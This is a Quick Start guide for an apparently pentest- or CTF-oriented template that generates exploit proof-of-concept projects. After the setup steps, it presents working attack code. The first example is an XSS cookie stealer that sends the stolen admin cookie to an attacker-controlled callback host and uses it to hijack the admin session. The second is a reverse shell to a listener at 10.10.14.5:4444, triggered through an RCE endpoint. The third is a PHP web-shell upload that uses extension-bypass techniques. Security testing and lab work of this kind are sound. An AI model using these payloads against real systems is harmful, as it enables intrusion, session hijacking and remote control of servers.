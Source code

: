 Quick Start
===========

Build your first POC in 5 minutes.

Prerequisites
-------------

Install `uv <https://docs.astral.sh/uv/>`_ (used for package management and running cookiecutter):

.. code-block:: bash

   # macOS/Linux
   curl -LsSf https://astral.sh/uv/install.sh | sh

   # Or with pip
   pip install uv

   # Or with brew (macOS)
   brew install uv

Create a New POC Project
------------------------

.. code-block:: bash

   uvx cookiecutter https://github.com/kwkeefer/cookiecutter-poc

Answer the prompts (or press Enter for defaults).

Run Your First Command
-----------------------

.. code-block:: bash

   cd your_project_name
   uv run your_project --help

Your First Exploit
-------------------

Edit ``src/your_project/exploit.py``:

.. code-block:: python

   """
   Simple XSS cookie stealer POC
   """
   import requests
   from your_project.utils.output import out
   from your_project.utils.xss import cookie_stealer
   from your_project.utils.server_hooks import get_cookie
   from your_project.utils.cookie import parse_cookie_string

   def run(args):
       """Exploit XSS to steal admin cookie"""

       target_url = args.target
       lhost = args.lhost
       lport = args.lport

       # Generate XSS payload
       payload = cookie_stealer(f"http://{lhost}:{lport}")
       out.info(f"Payload: {payload}")

       # Send payload to target
       out.status("Sending XSS payload...")
       requests.post(f"{target_url}/comment",
                    data={"content": payload})

       # Wait for admin to visit
       out.status("Waiting for callback...")
       cookie = get_cookie(timeout=60)

       if cookie:
           out.success(f"Cookie captured: {cookie}")

           # Parse and use it
           cookies = parse_cookie_string(cookie)
           r = requests.get(f"{target_url}/admin", cookies=cookies)

           if "Admin Panel" in r.text:
               out.success("Successfully accessed admin panel!")
           else:
               out.error("Cookie didn't grant admin access")
       else:
           out.error("No callback received")

Run Your Exploit
----------------

First, start the HTTP callback server in one terminal:

.. code-block:: bash

   uv run your_project --server

Then in another terminal, run your exploit:

.. code-block:: bash

   uv run your_project --target http://victim.com --lhost YOUR_IP --lport 8000

Common Patterns
---------------

**Colored Output**

.. code-block:: python

   from your_project.utils.output import out

   out.success("Vulnerability confirmed!")
   out.error("Connection failed")
   out.info("Starting exploit")
   out.warning("Using default credentials")
   out.debug("Response: 200 OK")

**Reverse Shell**

.. code-block:: python

   from your_project.utils.reverse_shells import python_oneliner
   from your_project.utils.shell_catcher import auto_shell

   # Generate shell payload
   cmd = python_oneliner("10.10.14.5", 4444)

   # Catch shell automatically
   with auto_shell(4444) as catcher:
       # Trigger RCE with your payload
       requests.get(f"{target}/rce?cmd={cmd}")

       # Interact with shell
       if catcher.shell_caught:
           catcher.stabilize()  # Upgrade to PTY
           catcher.interact()   # Full interactive shell!

**File Upload**

.. code-block:: python

   from your_project.utils.file_upload import FileUploader

   uploader = FileUploader(f"{target}/upload")
   result = uploader.upload_with_bypass(
       "shell.php",
       b"<?php system($_GET['cmd']); ?>",
       techniques=["double_extension", "null_byte"]
   )

Next Steps
----------

* Explore more :doc:`examples`
* Read :doc:`workflows` for end-to-end scenarios
* Browse the :doc:`api/index` for all available utilities
